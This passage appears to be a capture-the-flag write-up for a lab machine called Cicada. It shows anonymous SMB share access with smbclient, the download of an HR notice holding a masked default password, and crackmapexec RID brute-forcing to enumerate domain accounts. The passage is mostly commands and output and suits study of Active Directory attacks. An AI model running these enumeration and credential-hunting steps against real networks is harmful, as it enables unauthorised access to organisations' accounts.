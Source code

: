 We got some interesting shares "DEV" and "HR". Let's try to read them without a password and we discover that only "HR" is readable.
In HR share we find a file called "Notice from HR.txt", so we download it to our machine:

```
smbclient //10.10.11.35/HR -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

		4168447 blocks of size 4096. 417502 blocks available
smb: \> get "Notice from HR.txt" /home/francesco/Downloads/Notice_from_HR.txt
getting file \Notice from HR.txt of size 1266 as /home/francesco/Downloads/Notice_from_HR.txt (7,4 KiloBytes/sec) (average 7,4 KiloBytes/sec)

```

Once we open it, we find a default password assigned to each new hire:

```
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: ****************
...
```

To find users who use this password, we need to know a list of users on the domain.
In order to do so, we can brute force the user RID of each user using crackmapexec:

```
crackmapexec smb 10.10.11.35 --rid-brute -u 'guest' -p ''
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
```
